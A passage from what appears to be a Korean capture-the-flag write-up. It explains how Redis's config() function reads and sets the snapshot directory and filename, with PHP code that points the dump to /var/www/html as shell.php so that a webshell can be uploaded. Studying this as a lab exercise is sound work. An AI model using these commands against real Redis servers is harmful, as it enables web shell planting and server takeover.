 위와 같이 **dir** 의 값을 알 수 있다.  

이는 **config()** 라는 함수에 의해 가능하다.  

```php
# Snapshot(RDB) 저장 주기 설정을 조회
$redis->config('GET', 'save');

# Snapshot(RDB) 저장 주기를 설정 (10초 동안 1회 이상 key 변경이 발생하면 저장)
$redis->config('SET', 'save', 10 1);

# Snapshot(RDB)이 저장되는 경로를 설정
$redis->config('SET', 'dir', '/var/www/html');

# Snapshot(RDB)이 저장되는 파일명을 설정
$redis->config('SET', 'dbfilename', 'shell.php');
```

위와 같이 **GET** 을 통해 값을 가져올 수 있고, **SET** 으로 값을 설정할 수 있다.  

여기서 **dir** 은 Snapshot 이 저장되는 경로이고, **dbfilename** 은 Snapshot 이 저장되는 파일명이다.  

이외에도 bind, port, maxmemory 와 같은 여러 설정 옵션이 있다고 한다.  

결론적으로 이 문제에서는 config 에서 GET, SET 을 통해 설정값을 바꿀 수 있으므로 이를 통해 **웹쉘을 업로드**할 수 있다.  

## 3. 본격적인 공격 및 redis 특징

<img src="5.png">  

위와 같이 **dbfilename** 이 **dump.rdb** 인 것을 알 수 있는데, 이를 원하는대로 바꿀 수 있다.  
